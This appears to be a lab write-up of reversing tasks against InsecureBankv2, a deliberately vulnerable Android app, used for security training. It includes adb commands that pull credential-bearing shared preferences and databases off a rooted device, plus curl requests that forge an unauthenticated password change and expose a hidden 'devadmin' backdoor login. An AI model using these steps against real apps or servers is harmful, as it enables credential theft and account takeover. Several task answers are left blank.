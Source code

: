 # Tasks
This file contains tasks related to Android mobile reversing.

## Insecure data storage

### Exploiting local data storage

#### Task 1: Find and read the Android Shared Preferences
1. Find the package name

This requires root. With images that use Google APIs,
you may easily get root by entering the following command:
```
$ adb root
```

Without Google API, you may 

Another way, and how I chose to solve this, was using _su_
as in the following snippet:
```bash
Android-InsecureBankv2> adb shell
generic_x86:/ $ su
generic_x86:/ # pm list packages | grep <packagename>
```

2. Copy all preferences to your machine.

Often you would like to have files locally on your machine,
and not on the device you are reversing. To do this, you
need root on the device. However, using _su_ will not do the
magic for us now as that is just within the shell. With images 
that use Google APIs, you may use:
```bash
$ adb root
```

And then, you can use another _adb_ command to pull the file
to you local machine:
```bash
$ adb pull /data/data/<package_name>/shared_prefs/<preference_file>.xml
```

3. Does the file contain anything juicy?

Hellz yeah, it does!
```bash
Android-InsecureBankv2> cat .\mySharedPreferences.xml
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
<map>
    <string name="superSecurePassword">DTrW2VXjSoFdg0e61fHxJg==&#10;    </string>
    <string name="EncryptedUsername">ZGluZXNo&#13;&#10;    </string>
</map>
```

#### Task 2: 
1. Where are the database(s) for this application located?

`/data/data/com.android.insecurebankv2/databases`

2. Copy the database out of the device

`adb pull /data/data/com.android.insecurebankv2/databases .`

3. What type of database is this?

SQLite 3:
```bash
$ cd databases
$ file mydb
mydb: SQLite 3.x database, user version 1, last written using SQLite version 3019004
```

4. Dump the schema
```bash
$ sqlite3 mydb
SQLite version 3.22.0 2018-01-22 18:45:57
Enter ".help" for usage hints.
sqlite> .schema
CREATE TABLE android_metadata (locale TEXT);
CREATE TABLE names (id INTEGER PRIMARY KEY AUTOINCREMENT,  name TEXT NOT NULL);
CREATE TABLE sqlite_sequence(name,seq);
```

5. List all tables
```bash
sqlite> .tables
android_metadata  names
```

6. Dump all the tables
```bash
sqlite> .dump names
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE names (id INTEGER PRIMARY KEY AUTOINCREMENT,  name TEXT NOT NULL);
INSERT INTO names VALUES(1,'dinesh');
COMMIT;
sqlite> .dump android_metadata
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE android_metadata (locale TEXT);
INSERT INTO android_metadata VALUES('en_US');
COMMIT;
```


### Task 1
To solve all of the following tasks, Burp Suite was used to intercept all the
traffic coming from the Android emulator. To do this, first install Burp. Open
Burp and click the `Proxy` tab. Ensure that intercept is `on`. To make the app
use Burp as a proxy, go into settings in the emulator and click the `proxy` tab.
Enter the IP address of your computer and set the port to 8080, which is the
default port used by Burp. Traffic should now go through Burp.

What happens when you log in?
1. What protocol is used?
`HTTP`

2. Is it encrypted?
No. Only HTTP is used, not HTTPS.

3. Can you see any sensitive data?
Yes, username and password is sent in clear text.

4. Can you identify other API endpoints?
In the Transfer-menu:
* `/getaccounts` when you press `Get Accounts`
* `/dotransfer` when you press `Transfer`
In the main menu:
* `/changepassword` when you press `Change Password`

Forging requests
1. Can you change the password of `dinesh` without logging in first?
Yes, there is no validation on the server to see if you are already logged in.
We can simply send a POST request to `/changepassword` on the server with the
expected parameters.
From looking at intercepted requests in Burp, we know that the request looks
like this:

```
POST /changepassword HTTP/1.1
Content-Length: 48
Content-Type: application/x-www-form-urlencoded
Host: 192.168.1.105:8888
Connection: close
User-Agent: Apache-HttpClient/UNAVAILABLE (java 1.4)

username=<username>&newpassword=<password>
```
The easiest way to send a forged request is to click Action -> Send to repeater
in Burp. This allows you to click on the `Repeater` tab, change the contents as
you want, and send the modified request.

You can also use curl like this:
```bash
$ curl -d "username=dinesh&newpassword=lol" http://192.168.1.105:8888/changepassword
{"message": "Change Password Successful"}
```
And then verify that we can still log in:
```bash
$ curl -d "username=dinesh&password=lol" http://192.168.1.105:8888/login
{"message": "Correct Credentials", "user": "dinesh"}
```


2. Any other requests you can forge?
We can forge all requests to the server, as there's no checks in place to make
sure that we are logged in. We could transfer money between two accounts, for
example!

## Extraneous Functionality

#### Task 1: Extraneous Functionality
1. Can you find any backdoors or other developer tools left in the app?
After decompiling the source code, e.g. using jadx, we can see that there is a
hidden endpoint at `/devlogin`. Here's an excerpt of the code:
```Java
public void postData(String valueIWantToSend) throws ClientProtocolException, IOException, JSONException, InvalidKeyException, NoSuchAlgorithmException, NoSuc
hPaddingException, InvalidAlgorithmParameterException, IllegalBlockSizeException, BadPaddingException {
	HttpResponse responseBody;
	HttpClient httpclient = new DefaultHttpClient();
	StringBuilder stringBuilder = new StringBuilder();
	stringBuilder.append(DoLogin.this.protocol);
	stringBuilder.append(DoLogin.this.serverip);
	stringBuilder.append(":");
	stringBuilder.append(DoLogin.this.serverport);
	stringBuilder.append("/login");
	HttpPost httppost = new HttpPost(stringBuilder.toString());
	StringBuilder stringBuilder2 = new StringBuilder();
	stringBuilder2.append(DoLogin.this.protocol);
	stringBuilder2.append(DoLogin.this.serverip);
	stringBuilder2.append(":");
	stringBuilder2.append(DoLogin.this.serverport);
	stringBuilder2.append("/devlogin");
	HttpPost httppost2 = new HttpPost(stringBuilder2.toString());
	List<NameValuePair> nameValuePairs = new ArrayList(2);
	nameValuePairs.add(new BasicNameValuePair("username", DoLogin.this.username));
	nameValuePairs.add(new BasicNameValuePair("password", DoLogin.this.password));
	if (DoLogin.this.username.equals("devadmin")) {
		httppost2.setEntity(new UrlEncodedFormEntity(nameValuePairs));
		responseBody = httpclient.execute(httppost2);
	} else {
		httppost.setEntity(new UrlEncodedFormEntity(nameValuePairs));
		responseBody = httpclient.execute(httppost);
	}
	[...]
}
```
If you supply `devadmin` as the username, you will simply be logged in without
having to enter a password

2. What can these be used for?

3. If they pose a security risk, what would you do to fix it?
4. Enable debugging on an app that doesn't have it enabled by default.
